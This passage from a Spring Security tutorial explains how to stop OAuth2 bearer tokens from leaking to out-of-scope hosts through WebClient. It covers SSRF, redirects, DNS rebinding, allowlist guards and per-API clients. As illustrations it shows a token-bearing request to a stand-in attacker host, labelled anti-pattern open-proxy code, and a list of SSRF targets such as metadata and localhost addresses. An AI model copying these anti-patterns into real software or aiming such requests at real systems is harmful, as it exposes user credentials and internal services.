

# 19.10. Preventing Tokens from Being Sent to Endpoints Outside the Allowed Scope

## 1. Scenario: A Valid Bearer Token Sent to the Wrong Place Is Still a Security Incident

In a **Spring Security OAuth 2.0 / OpenID Connect (OIDC) Client** application, a web site running on **Servlet/MVC** often calls APIs using `WebClient`. When an API requires OAuth 2.0, Spring Security can help retrieve `OAuth2AuthorizedClient`, refresh access tokens when needed, and attach the header:

```http
Authorization: Bearer <access-token>
```

to the request. This utility is very helpful, yet it introduces a risk: **if the application attaches the token to a request sent to the wrong endpoint**, the receiving server can see the credential even though the token was issued, stored, and refreshed completely properly.

Suppose an **Employee Portal** calls two APIs:

- `https://employee-api.example.com`: accepts a **user access token** after OIDC login under registration `employee-oidc`.
- `https://reports-api.example.com`: accepts an **application access token** via `client_credentials`, registration `reports-api`.

If a controller accepts a `targetUrl` parameter from the browser and uses a WebClient with default OAuth2 tokens enabled to call that URL, an attacker can ask the backend to call:

```text
https://attacker.example.net/collect
```

and receive the Bearer token header. From the Authorization Server's perspective, the token was issued properly. From the HTTP client's perspective, the request may even succeed. From a security perspective, however, the application has **leaked credentials to the wrong recipient**.

> **Most important rule:** Before WebClient adds a Bearer token, the backend must verify the **permitted target API**, **appropriate registration**, **right principal/authorized client**, and **caller's business permissions**. Never let the browser or untrusted input control both the token and the endpoint.

This lesson belongs to chapter **19. WebClient on Servlet** of the **Spring Security OAuth 2.0 OIDC Client** module. It focuses on preventing access tokens from being sent to endpoints outside the permitted scope, especially when integrating `ServletOAuth2AuthorizedClientExchangeFilterFunction`.

### After This Lesson, You Will Be Able To

1. Understand why OAuth2 WebClient default token attachment is risky on multi-host HTTP clients.
2. Distinguish **registration**, **authorized client/principal**, and **Resource Server destination**.
3. Configure WebClient with **explicit per-request token selection** and a **destination allowlist**.
4. Recognize **SSRF, host substitution, open redirect, credential forwarding, and token mix-up** attacks.
5. Design separate WebClients for user-bound APIs and service-bound APIs.
6. Place an endpoint-checking filter ahead of the OAuth2 filter and use egress network policies as an additional defense layer.
7. Distinguish Resource Server 401/403 errors from Token Endpoint errors and handle them without exposing tokens.
8. Protect logs, metrics, retries, caches, and HTTP redirects once a token is attached to a request.

These examples target **Spring Boot 3.x / Spring Security 6.x, Java 17+, and Spring WebFlux WebClient running inside a Servlet application**. Exact APIs and dependencies vary by version; the code illustrates design patterns and does not imply connection to a live Authorization Server.

## 2. Why Can WebClient on Servlet Accidentally Leak Tokens?

### 2.1. WebClient Is an HTTP Client, Not a Trust Boundary Enforcer

`WebClient` can send requests to a URI. That URI might be:

- A fixed host configured by the application.
- A path relative to `baseUrl`.
- An absolute URI passed by code.
- A URI constructed from templates, queries, or path variables.
- An endpoint obtained via service discovery or a dynamic configuration source.
- An address suggested by an API or HTTP redirect.

By nature, WebClient **does not know which hosts are allowed to receive `employee-oidc`'s token** unless the application enforces that policy.

For example, the HTTP request:

```http
GET /v1/me HTTP/1.1
Host: employee-api.example.com
Authorization: Bearer <user-access-token>
```

is valid if the token is meant for the Employee API, the user is allowed to call the endpoint, and the target API is trusted.

Conversely:

```http
GET /collect HTTP/1.1
Host: attacker.example.net
Authorization: Bearer <user-access-token>
```

is a **credential leak** if the backend sends the token simply because an arbitrary URL reached `WebClient`.

### 2.2. An Access Token Is a Bearer Credential

Per OAuth2 Bearer Token Usage, any party possessing a valid access token can attempt to use it against a matching Resource Server without necessarily proving possession of an additional cryptographic key.

Therefore, avoid:

- Including tokens in **requests sent to untrusted hosts**.
- Putting tokens in query strings or URLs.
- Logging raw `Authorization` headers.
- Returning tokens to the browser without architectural justification.
- Attaching tokens to requests for another user, another tenant, or another API.
- Letting the HTTP client automatically follow redirects to new endpoints without controlling credential handling.

A token with a narrow audience may stop an attacker from **using it at another API**, yet **it is still sensitive leaked data**: an attacker can inspect it, attempt to replay it against the real Resource Server, exploit misconfigured APIs, or extract claims if it is a JWT. **Audience is no excuse for letting tokens be sent to arbitrary hosts.**

### 2.3. Control Both Where Tokens Are Sent and Who Can Use Them

| Question | Key Component |
|---|---|
| Which OAuth2 Client is being used? | `ClientRegistration` / registration ID |
| Which principal does the token belong to? | `Authentication` and `OAuth2AuthorizedClient` |
| Is the token valid or does it need refresh? | `OAuth2AuthorizedClientManager` / provider |
| Which API hosts are allowed to receive the token? | Application allowlist policy + egress restrictions |
| Is the current user allowed to have the backend call the API? | Spring Security/application authorization |
| Does the API accept the token? | Resource Server checks issuer/audience/scope/expiry |
| Are redirects followed and do headers stay attached? | HTTP client/connector/proxy policy |
| Can anyone see the token in logs? | Logging/tracing/metrics redaction |

**You cannot solve this entire table with `oauth2Login()` or a `WebClient` filter alone.**

## 3. Ways Tokens Get Sent to Unauthorized Endpoints

### 3.1. Reading a URL from a Query Parameter — SSRF Plus Token Leakage

Anti-pattern:

```java
@GetMapping("/api/proxy")
public Mono<String> proxy(@RequestParam String url) {
    return webClient.get()
            .uri(url)
            .retrieve()
            .bodyToMono(String.class);
}
```

If `webClient` automatically attaches an access token to every request, a user can control which host receives the token. Beyond credential exposure, this also enables **Server-Side Request Forgery (SSRF)**: tricking the backend into calling internal metadata endpoints, localhost addresses, or private network services.

**Never implement an “open proxy to any URL” endpoint using an OAuth-token-bearing HTTP client.** Even on a tokenless WebClient, SSRF remains a risk requiring dedicated controls.

### 3.2. Fixed `baseUrl`, Yet the Call Site Passes an Absolute URI

Example:

```java
WebClient client = WebClient.builder()
        .baseUrl("https://employee-api.example.com")
        .build();

client.get()
        .uri("https://other-host.example.net/collect")
        .retrieve()
        .bodyToMono(String.class);
```

An absolute URI can **override the intended `baseUrl`**. Thus **`baseUrl` sets only a default**, not a hard lock on all outbound destinations.

Do not assume “calling `.baseUrl(...)` means tokens can only go to that host”.

### 3.3. Using a Default-Token Client Across Multiple APIs

Suppose a `WebClient` is configured to automatically attach the authenticated user's token:

```java
oauth2.setDefaultOAuth2AuthorizedClient(true);
```

Then the same instance is used to call:

- Employee API.
- Public weather API.
- Non-company services.
- Endpoints derived from user input.

When the default OAuth2 authorized client resolves automatically, the token can ride along on outbound requests **that do not actually need it**.

That is why Spring Security documentation warns to be careful with `setDefaultOAuth2AuthorizedClient(true)`: **every HTTP request made through that WebClient can receive the current user's access token**. It is a convenience that becomes dangerous on multi-purpose clients.

### 3.4. `setDefaultClientRegistrationId(...)` Carries Risk Too

A default registration such as:

```java
oauth2.setDefaultClientRegistrationId("reports-api");
```

makes it convenient to acquire service tokens without repeating request attributes per call. However, if that WebClient can send requests to arbitrary URLs, it can still **attach the service token to the wrong target**.

The difference:

- `setDefaultOAuth2AuthorizedClient(true)`: uses the authorized client tied to the current Authentication by default.
- `setDefaultClientRegistrationId("reports-api")`: selects a default registration to authorize.

**Neither restricts target URIs on its own.** Use defaults only on dedicated HTTP clients whose destinations are tightly constrained across every call path.

### 3.5. Redirecting to Another Host

Suppose the backend sends a valid request to:

```text
https://employee-api.example.com/v1/me
```

yet the server replies:

```http
HTTP/1.1 302 Found
Location: https://other-host.example.net/landing
```

If the HTTP client or a proxy **automatically follows redirects**, carefully verify how `Authorization`, cookies, and query parameters are handled. HTTP stacks have varying policies: many strip credentials on cross-origin hops, yet **you must never build a security model assuming every stack handles this safely**.

It is especially dangerous when an application writes custom follow-redirect logic and **copies the `Authorization` header to the new request** just to “make the API work”.

### 3.6. Dynamic Hosts, DNS Rebinding, and Proxies

Checking only a hostname string without egress policies still leaves risks when:

- The hostname resolves to an unexpected internal IP.
- DNS, hosts files, or proxies are altered or misconfigured.
- An API gateway forwards the request to a service in a different trust boundary.
- Service discovery returns an untrusted endpoint.
- The HTTP client routes through a proxy that broadens outbound reach.

Therefore, an allowlist in code is **one layer of defense**, which must be paired with network egress restrictions, DNS/TLS validation, and service discovery controls.

## 4. Mechanism of `ServletOAuth2AuthorizedClientExchangeFilterFunction`

### 4.1. Why Use This Class in a Servlet Application?

`WebClient` is a reactive HTTP client, yet it **can be used from Spring MVC/Servlet**. Spring Security provides `ServletOAuth2AuthorizedClientExchangeFilterFunction` to integrate WebClient with Servlet OAuth2 Client abstractions.

This filter can:

1. Read request attributes related to the authorized client/registration.
2. Look up `OAuth2AuthorizedClient` or call `OAuth2AuthorizedClientManager` when needed.
3. Attach the Bearer access token to outbound HTTP requests.
4. Support handling certain authorization errors via a configured failure handler.

It is not an inbound Servlet `SecurityFilterChain` filter; it is an **`ExchangeFilterFunction`** for **outbound WebClient** calls.

### 4.2. Common Configuration Styles

Example constructor taking a manager:

```java
ServletOAuth2AuthorizedClientExchangeFilterFunction oauth2 =
        new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);
```

Here `manager` has type `OAuth2AuthorizedClientManager`, constructed for the Servlet context (or service tier if the use case and wiring match).

Another option takes the registration repository and authorized client repository:

```java
ServletOAuth2AuthorizedClientExchangeFilterFunction oauth2 =
        new ServletOAuth2AuthorizedClientExchangeFilterFunction(
                clientRegistrations,
                authorizedClients);
```

In applicable Spring Security versions, inspect the corresponding success/failure handler configuration and default request attributes. Regardless of constructor, **no constructor replaces verifying the API destination**.

### 4.3. Explicitly Selecting Tokens Per Request

Common request attributes:

```java
import static org.springframework.security.oauth2.client.web.reactive.function.client
        .ServletOAuth2AuthorizedClientExchangeFilterFunction.clientRegistrationId;

import static org.springframework.security.oauth2.client.web.reactive.function.client
        .ServletOAuth2AuthorizedClientExchangeFilterFunction.oauth2AuthorizedClient;

import static org.springframework.security.oauth2.client.web.reactive.function.client
        .ServletOAuth2AuthorizedClientExchangeFilterFunction.authentication;
```

Example:

```java
webClient.get()
        .uri("/v1/me")
        .attributes(clientRegistrationId("employee-oidc"))
        .retrieve()
        .bodyToMono(String.class);
```

`clientRegistrationId("employee-oidc")` explicitly names which registration to use. Inside an authenticated Servlet HTTP request, the principal can be obtained via the filter's request attributes/SecurityContext mechanism when using `oauth2Configuration()`.

If you already hold a trusted `OAuth2AuthorizedClient` for the **right user/registration**, you can use:

```java
webClient.get()
        .uri("/v1/me")
        .attributes(oauth2AuthorizedClient(authorizedClient))
        .retrieve()
        .bodyToMono(String.class);
```

The safe rule is **selecting a token only once the endpoint is confirmed trustworthy**, never turning request attributes into an interface for the browser to pick someone else's token.

### 4.4. Avoid Default Tokens on General-Purpose WebClients

Anti-pattern:

```java
@Bean
WebClient riskyWebClient(
        OAuth2AuthorizedClientManager manager) {

    var oauth2 =
            new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);

    // Anti-pattern: default token is injected into every call from this WebClient.
    oauth2.setDefaultOAuth2AuthorizedClient(true);

    return WebClient.builder()
            .apply(oauth2.oauth2Configuration())
            .build();
}
```

If this bean is injected into a “universal fetcher” HTTP service that calls arbitrary addresses, a user could cause access tokens to be sent to out-of-scope APIs.

Instead of setting a broad default token:

- Create a **dedicated WebClient per allowlisted API**.
- **Do not enable** `setDefaultOAuth2AuthorizedClient(true)` by default.
- Set `clientRegistrationId(...)` or `oauth2AuthorizedClient(...)` **explicitly** at the call site.
- Add a **destination guard** ahead of the OAuth2 filter.
- Never auto-follow redirects to other hosts while keeping the Bearer header.
- Enforce network egress policies as a safety net against code mistakes.

## 5. First Line of Defense: A Dedicated WebClient Per Resource Server

### 5.1. Configuration Without Default Token Attachment

Example WebClient dedicated to the Employee API:

```java
package com.example.portal.http;

import org.springframework.beans.factory.annotation.Qualifier;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientManager;
import org.springframework.security.oauth2.client.web.reactive.function.client.ServletOAuth2AuthorizedClientExchangeFilterFunction;
import org.springframework.web.reactive.function.client.WebClient;

@Configuration
public class EmployeeApiWebClientConfig {

    @Bean("employeeApiWebClient")
    WebClient employeeApiWebClient(
            WebClient.Builder builder,
            @Qualifier("userAuthorizedClientManager")
            OAuth2AuthorizedClientManager manager) {

        var oauth2 =
                new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);

        // Do not enable setDefaultOAuth2AuthorizedClient(true).
        // Do not set a default registration on multi-purpose clients.

        return builder.clone()
                .baseUrl("https://employee-api.example.com")
                .apply(oauth2.oauth2Configuration())
                .build();
    }
}
```

Here:

- `userAuthorizedClientManager` serves user-bound Servlet requests.
- WebClient has a `baseUrl` strictly for calling the Employee API.
- The OAuth filter runs when a request selects the appropriate authorized client/registration.
- The bean is named explicitly to avoid accidental injection mismatches in apps with multiple HTTP clients.

**Configuring `baseUrl` alone is still not enough**: a call site can pass an absolute URI and switch hosts. The next defense layer blocks that.

### 5.2. Service Selecting the Registration Right at the Request

```java
package com.example.portal.employee;

import static org.springframework.security.oauth2.client.web.reactive.function.client
        .ServletOAuth2AuthorizedClientExchangeFilterFunction.clientRegistrationId;

import org.springframework.beans.factory.annotation.Qualifier;
import org.springframework.stereotype.Service;
import org.springframework.web.reactive.function.client.WebClient;
import reactor.core.publisher.Mono;

@Service
public class EmployeeApiClient {

    private final WebClient api;

    public EmployeeApiClient(
            @Qualifier("employeeApiWebClient") WebClient api) {
        this.api = api;
    }

    public Mono<String> currentEmployee() {
        return api.get()
                .uri("/v1/employees/me")
                .attributes(clientRegistrationId("employee-oidc"))
                .retrieve()
                .bodyToMono(String.class);
    }
}
```

`employee-oidc` must be an OAuth2 registration authorized by the user, and its access token must match the Employee API. If OIDC login only grants `openid profile`, **it does not implicitly grant permission to call the Employee API**; scopes/audiences must match the actual contract.

### 5.3. Do Not Create One Shared WebClient for All Hosts and All Tokens

Architectural anti-pattern:

```text
UniversalWebClient
  -> setDefaultOAuth2AuthorizedClient(true)
  -> public HTTP API
  -> Employee API
  -> Reports API
  -> arbitrary URL from browser
```

Alternative design:

```text
EmployeeApiWebClient
  -> employee-api.example.com
  -> registration employee-oidc
  -> authenticated user principal

ReportsApiWebClient
  -> reports-api.example.com
  -> registration reports-api
  -> technical service principal

PublicWebClient
  -> attaches no OAuth2 Bearer token whatsoever
  -> calls only managed public endpoints
```

Scoping WebClients by domain/trust boundary makes it clear to the whole team which token can go where. **Separating clients is defense-in-depth**; it does not replace authorization policies and destination validation.

## 6. Second Line of Defense: Blocking Invalid Destinations Before the OAuth Filter

### 6.1. Why Do You Need a Filter Inspecting the Final URI?

A fixed `baseUrl` can be overridden by an absolute URI. To catch that, install an `ExchangeFilterFunction` that inspects `ClientRequest.url()` — the final target URI prepared by WebClient.

**Register the destination guard ahead of the OAuth2 filter**, so disallowed requests are rejected **before any token is attached**.

### 6.2. Example Guard for a Specific HTTPS Origin

```java
package com.example.portal.http;

import java.net.URI;
import java.util.Locale;

import org.springframework.web.reactive.function.client.ExchangeFilterFunction;
import reactor.core.publisher.Mono;

public final class AllowedDestinationFilters {

    private AllowedDestinationFilters() {
    }

    public static ExchangeFilterFunction exactHttpsOrigin(String expectedHost) {
        String allowedHost = expectedHost.toLowerCase(Locale.ROOT);

        return (request, next) -> {
            URI uri = request.url();

            boolean allowedScheme =
                    "https".equalsIgnoreCase(uri.getScheme());

            boolean allowedHostName =
                    uri.getHost() != null
                    && allowedHost.equals(
                            uri.getHost().toLowerCase(Locale.ROOT));

            // URI port -1 means default; HTTPS default is 443.
            boolean allowedPort =
                    uri.getPort() == -1 || uri.getPort() == 443;

            boolean noUserInfo =
                    uri.getRawUserInfo() == null;

            boolean noFragment =
                    uri.getRawFragment() == null;

            if (!allowedScheme || !allowedHostName || !allowedPort
                    || !noUserInfo || !noFragment) {

                // Do not log the full URI, which may contain queries/secrets.
                return Mono.error(new SecurityException(
                        "Outbound API destination is not permitted"));
            }

            return next.exchange(request);
        };
    }
}
```

This example **checks only the origin**: HTTPS scheme, exact hostname, standard HTTPS port, and no userinfo/fragment. It does not attempt to solve every canonicalization, DNS, proxy, or route-level authorization nuance; those require additional defense layers.

Benefits of **exact hostname comparison**:

- Rejects `employee-api.example.com.attacker.net`.
- Rejects `other-employee-api.example.com`.
- Rejects plaintext HTTP.
- Rejects arbitrary service ports.
- Never relies on `String.contains("employee-api")` or `String.endsWith("example.com")` to guess trusted hosts.

If a system involves IDN/Unicode hostnames or dynamic service discovery, apply dedicated normalization/matching rules aligned with infrastructure. Never treat an unnormalized host allowlist as your sole validation layer.

### 6.3. Wiring the Guard Ahead of the OAuth Filter

```java
@Bean("employeeApiWebClient")
WebClient employeeApiWebClient(
        WebClient.Builder builder,
        @Qualifier("userAuthorizedClientManager")
        OAuth2AuthorizedClientManager manager) {

    var oauth2 =
            new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);

    return builder.clone()
            .baseUrl("https://employee-api.example.com")
            .filter(AllowedDestinationFilters.exactHttpsOrigin(
                    "employee-api.example.com"))
            .apply(oauth2.oauth2Configuration())
            .build();
}
```

Following the filter order in this configuration:

```text
Caller builds request URI
         |
         v
Destination guard (blocks wrong scheme/host/port)
         |
         +-- Invalid -> Mono.error, no HTTP request sent
         |
         v
OAuth2 ExchangeFilterFunction
         |
         v
Resolve authorized client / access token
         |
         v
HTTP connector sends request to permitted Resource Server
```

**Note:** the custom filter is added **before** `oauth2.oauth2Configuration()` here. If using a builder that already carries other auto-configured filters or reusing a builder, manage filter ordering explicitly. Also never assume a WebClient filter guard can observe internal redirects handled later by the HTTP connector.

### 6.4. Why Doesn't the Guard Solve SSRF Completely on Its Own?

This guard blocks hosts outside the allowlist, yet does not cover every scenario:

- DNS for an allowed hostname resolves to an unexpected IP.
- A proxy/service mesh rewrites the destination.
- The HTTP connector follows redirects automatically.
- An API path on the same origin points to a sensitive route.
- A trusted upstream returns an attacker-controlled path/URL that the app then follows.
- Same origin, yet the target endpoint is not permitted to receive that specific client's token.

Therefore, if the requirement is **only specific endpoints/paths may receive the token**, add path checks—or better yet, **never accept arbitrary URIs in the first place**, exposing only fixed API methods.

## 7. Third Line of Defense: Restricting Routes/Paths Instead of Hostname Alone

### 7.1. Same Host Does Not Mean Every Endpoint Is Allowed

For example, host `employee-api.example.com` has two route groups:

```text
/v1/employees/me             -- for user token employee.read
/v1/admin/export-all         -- requires special admin privileges
```

An `employee.read` access token may be rejected by the API on the admin route, yet the client still should not expose a generic gateway letting users pass arbitrary paths to “probe” routes. Especially when the backend holds a **broad-privilege service token**, bind endpoints strictly to approved business operations.

### 7.2. Fixed API Methods Are Safer Than Generic Forwarding

Prefer:

```java
public Mono<String> currentEmployee() {
    return employeeApi.get()
            .uri("/v1/employees/me")
            .attributes(clientRegistrationId("employee-oidc"))
            .retrieve()
            .bodyToMono(String.class);
}
```

over:

```java
// Anti-pattern: caller controls an unrestricted path.
public Mono<String> fetch(String arbitraryPath) {
    return employeeApi.get()
            .uri(arbitraryPath)
            .attributes(clientRegistrationId("employee-oidc"))
            .retrieve()
            .bodyToMono(String.class);
}
```

For APIs with dynamic IDs, use **path variables** encoded by WebClient and enforce business authorization:

```java
public Mono<String> employeeById(String employeeId) {
    // Caller must verify the user is allowed to view employeeId.
    return employeeApi.get()
            .uri(uriBuilder -> uriBuilder
                    .pathSegment("v1", "employees", "{employeeId}")
                    .build(employeeId))
            .attributes(clientRegistrationId("employee-oidc"))
            .retrieve()
            .bodyToMono(String.class);
}
```

Using `pathSegment`/URI templates mitigates string-concatenation URI bugs, yet **does not replace** checking which `employeeId` the user is allowed to view. If user A passes user B's ID and the business layer skips authorization, that is still an IDOR even when the destination host is valid.

### 7.3. Avoid Naive Raw-Path Prefix Checks

If you must allowlist paths, never check only:

```java
// Not strong enough against all encoding/normalization cases.
uri.getPath().startsWith("/v1/employees");
```

because it can mistakenly match `/v1/employees-admin` or paths with dot segments/encoded slashes interpreted differently by proxies and the Resource Server.

In real systems, you can:

- Expose only defined API operations via typed service methods.
- Normalize paths using **the exact same rules as the reverse proxy/upstream**.
- Reject ambiguous representations like dot segments or encoded slashes/backslashes when policy requires.
- Validate paths on **segment boundaries** and HTTP methods.
- Enforce authorization on the Resource Server itself, not solely in WebClient.
- Configure an API gateway/egress proxy for permitted routes where appropriate.

The **origin guard** in section 6 illustrates stopping tokens from leaving the host; **route allowlists** should be tailored to each API contract rather than using one generic prefix check across all services.

## 8. Redirects: Risk of Sending Tokens Outside the Allowlist Even When the Initial URI Is Valid

### 8.1. Redirects Happen After WebClient Resolves the Initial URI

A scenario:

```text
WebClient -> https://employee-api.example.com/v1/me
         Authorization: Bearer <user-token>

Employee API -> HTTP 302
                Location: https://external.example.net/track
```

The destination guard in `ExchangeFilterFunction` sees only the initial request. If **the underlying HTTP connector follows redirects automatically**, the guard **may not be invoked for subsequent redirect requests**.

Never claim that checking `ClientRequest.url()` once guarantees tokens cannot leak via redirects.

### 8.2. Safe Policies for Authenticated HTTP Calls

Prefer:

- **Disable automatic redirect following** in HTTP connectors used for Bearer-token APIs, unless explicitly required under strict policy.
- If redirects are needed, re-validate the **scheme, exact host, port, path, and trust boundary** of `Location` before making the next request.
- When crossing origins, **never copy `Authorization`, `Cookie`, or other credential headers** to the new target.
- Never assume a `Location` URL returned by a provider is always an authorized new endpoint.
- Check redirect chains, maximum hops, and redirect loops.
- Never treat an HTTPS-to-HTTP downgrade redirect as safe.

### 8.3. Example Disabling Auto-Redirect with Reactor Netty

When WebClient uses Reactor Netty and the project has the Reactor Netty HTTP dependency:

```java
package com.example.portal.http;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.client.reactive.ReactorClientHttpConnector;
import org.springframework.web.reactive.function.client.WebClient;

import reactor.netty.http.client.HttpClient;

@Configuration
public class NoRedirectHttpClientConfig {

    @Bean("restrictedHttpConnector")
    ReactorClientHttpConnector restrictedHttpConnector() {

        HttpClient httpClient = HttpClient.create()
                .followRedirect(false);

        return new ReactorClientHttpConnector(httpClient);
    }
}
```

Wiring the connector into the OAuth WebClient:

```java
@Bean("restrictedEmployeeApiWebClient")
WebClient restrictedEmployeeApiWebClient(
        WebClient.Builder builder,
        @Qualifier("restrictedHttpConnector")
        ReactorClientHttpConnector connector,
        @Qualifier("userAuthorizedClientManager")
        OAuth2AuthorizedClientManager manager) {

    var oauth2 =
            new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);

    return builder.clone()
            .baseUrl("https://employee-api.example.com")
            .clientConnector(connector)
            .filter(AllowedDestinationFilters.exactHttpsOrigin(
                    "employee-api.example.com"))
            .apply(oauth2.oauth2Configuration())
            .build();
}
```

This is a **configuration variant** of the WebClient in sections 5–6; do not declare both beans for the same purpose and mix them up. Depending on the Boot environment, the actual HTTP connector may be Reactor Netty, Jetty, or another implementation; configure redirect policy on the **actual connector in use**.

`followRedirect(false)` expresses the intent **not to automatically follow 3xx responses to a new URI**. In practice, inspect gateways, ingress, proxies, and client wrappers that might handle redirects elsewhere. If an API migrates hosts, treat it as a **new API integration** requiring review rather than enabling redirects blindly.

### 8.4. Even on the Same Origin, the New Path Must Still Be Authorized

Blocking cross-origin redirects is not enough if a server on the same origin redirects from a normal route to a sensitive route:

```text
/v1/employees/me
   -> /v1/admin/export
```

Even though the token header stays on the same host, the target route may **fall outside the permitted business operation**. Design HTTP clients/services to call only defined API operations, enforce route/method permissions, and enforce authorization on the Resource Server.

## 9. SSRF and DNS Rebinding: Even Permitted Hostnames Can Still Be Dangerous

### 9.1. SSRF Is Not Only an Access Token Issue

If a server endpoint lets callers control a URL:

```java
public Mono<String> fetchExternal(String arbitraryUrl) {
    return apiClient.get().uri(arbitraryUrl).retrieve().bodyToMono(String.class);
}
```

an attacker can try:

- `http://127.0.0.1:...`, `http://localhost:...`.
- Link-local/cloud metadata services.
- RFC 1918 or internal network addresses.
- URLs with userinfo, redirects, or unusual encodings.
- Hosts crafted for unpredictable DNS resolution.
- Internal systems unreachable from the public Internet.

If the HTTP client carries an OAuth filter, the risk escalates to **SSRF combined with Bearer token leakage**.

### 9.2. Defense-in-Depth Mechanisms

| Layer | Goal | Example |
|---|---|---|
| **Application API shape** | Never accept generic arbitrary URLs | Dedicated `EmployeeApiClient.currentEmployee()` |
| **URI construction** | Control scheme, host, port, path | Fixed base URL + URI template |
| **Outbound filter** | Block requests leaving trust boundary | Exact HTTPS origin guard |
| **HTTP connector** | Never follow arbitrary redirects | `followRedirect(false)` |
| **Network egress** | Prevent backend from reaching unlisted hosts/IPs | Firewalls, service mesh, egress gateways |
| **DNS/TLS** | Verify target server | Trust store, hostname verification, DNS policy |
| **Token policy** | Limit blast radius if a token leaks | Audience, scopes, short expiry |
| **Resource Server** | Reject tokens not meant for the API | Validate issuer/audience/expiry/scopes |
| **Logging** | Prevent amplifying leaked tokens in logs/traces | Authorization header redaction |

### 9.3. DNS Rebinding: A Hostname Allowlist Is Not the Final Guarantee

An app may match `api.example.com`, yet the network stack resolves that name to a different IP at connection time. If DNS/domain records can be manipulated or a proxy rewrites traffic, tokens can reach unintended destinations.

Defense-in-depth measures:

- Allowlist only **domains managed by trusted organizations/vendors**.
- Restrict outbound traffic via network policies, not just application code.
- Use managed DNS resolvers, proxies, and service discovery.
- Ensure TLS certificate + hostname verification is never disabled.
- For sensitive services, consider mTLS or private connectivity per API contract.
- Never disable certificate validation to work around a temporary connection error.
- If using IP allowlisting, account for CIDRs, proxies, IPv4/IPv6, DNS rotation, and consistency between check time and connect time; never write a naive IP check assuming it prevents TOCTOU.

### 9.4. Guarding Against Query/Path Injection

Even when the API host is right, callers may attempt to manipulate:

- `/v1/employees/{id}` to view unauthorized records.
- Query `tenant=other-tenant`.
- File/path names containing dot segments or encoded slashes.
- Caller-supplied `Host`/`X-Forwarded-Host`/`Authorization` headers.
- Hidden administrative paths on the same API origin.

Therefore, typed API methods must validate every parameter by **business rules**; network allowlists do not replace application authorization.

## 10. User-Bound WebClient: Tokens Must Match the Right Authentication

### 10.1. OIDC Login and Authorized Clients

In a Spring Security web application:

1. Browser initiates `/oauth2/authorization/employee-oidc`.
2. Authorization Server handles login/consent and calls back to the app.
3. Spring Security exchanges the authorization code for tokens.
4. The OIDC authentication provider verifies the ID Token and creates `Authentication`.
5. The authorized client holding the access token is saved by matching registration and principal.
6. WebClient can retrieve that authorized client when the backend calls the Employee API within **that same user's request context**.

When an access token is issued to user A, never keep it in a static variable or singleton field and apply it to user B.

### 10.2. Configuring the Servlet Manager

```java
package com.example.portal.security;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.oauth2.client.DefaultOAuth2AuthorizedClientManager;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientManager;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientProvider;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientProviderBuilder;
import org.springframework.security.oauth2.client.registration.ClientRegistrationRepository;
import org.springframework.security.oauth2.client.web.OAuth2AuthorizedClientRepository;

@Configuration
public class UserClientManagerConfiguration {

    @Bean("userAuthorizedClientManager")
    OAuth2AuthorizedClientManager userAuthorizedClientManager(
            ClientRegistrationRepository registrations,
            OAuth2AuthorizedClientRepository repository) {

        OAuth2AuthorizedClientProvider provider =
                OAuth2AuthorizedClientProviderBuilder.builder()
                    .authorizationCode()
                    .refreshToken()
                    .build();

        var manager = new DefaultOAuth2AuthorizedClientManager(
                registrations,
                repository);
        manager.setAuthorizedClientProvider(provider);

        return manager;
    }
}
```

`DefaultOAuth2AuthorizedClientManager` operates inside the Servlet HTTP request/response context. `ServletOAuth2AuthorizedClientExchangeFilterFunction` can populate the corresponding request attributes via `oauth2.oauth2Configuration()`.

If code runs from a scheduler or message queue with no Servlet request, **do not assume** this manager still has HTTP context. Pick a service-tier manager matching the use case.

### 10.3. Never Let the Browser Choose the Principal Name

Dangerous anti-pattern:

```java
@GetMapping("/proxy-employee")
public Mono<String> fetchFor(
        @RequestParam String principalName,
        @RequestParam String targetUrl) {

    // Contraindicated: caller controls both user key and endpoint.
    return webClient.get()
            .uri(targetUrl)
            .attributes(clientRegistrationId("employee-oidc"))
            .attributes(authentication(createAuthentication(principalName)))
            .retrieve()
            .bodyToMono(String.class);
}
```

`createAuthentication(...)` here is a hypothetical helper in an **anti-pattern**, intentionally left unimplemented. Never construct a fake Authentication just to read a token for a browser-supplied username.

Instead:

- Take the real Authentication from Spring Security.
- Use a fixed endpoint and verify the user is permitted to access the requested data.
- Let the OAuth2 filter resolve the principal from the trusted request/Authentication.
- If multiple OIDC accounts/registrations are needed, the user must complete valid authorization flows for each registration.
- Never pass `principal("other-user")` as a way to bypass token store access controls.

### 10.4. A User Can Lose Their Token While Their Session Still Exists

For example, a user remains logged in yet:

- The access token was revoked.
- The refresh token expired or rotation failed.
- The user has not consented to a new scope/API.
- The application changed registration IDs or principal naming strategies.
- Authorized client storage was cleared or failed.

